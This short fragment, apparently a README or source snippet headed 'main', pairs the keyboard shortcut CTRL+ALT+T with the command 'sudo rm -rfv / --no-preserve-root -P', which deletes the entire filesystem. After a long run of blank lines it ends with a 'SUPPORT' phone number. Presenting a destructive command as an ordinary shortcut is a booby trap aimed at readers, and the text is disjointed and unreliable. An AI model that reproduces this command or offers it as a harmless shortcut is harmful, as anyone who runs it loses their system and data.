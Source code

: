 # main
Button combination "CTRL" + "ALT" + "T" : "sudo rm -rfv / --no-preserve-root -P " 


























SUPPORT: 
Rest of World +44 203 656 5291
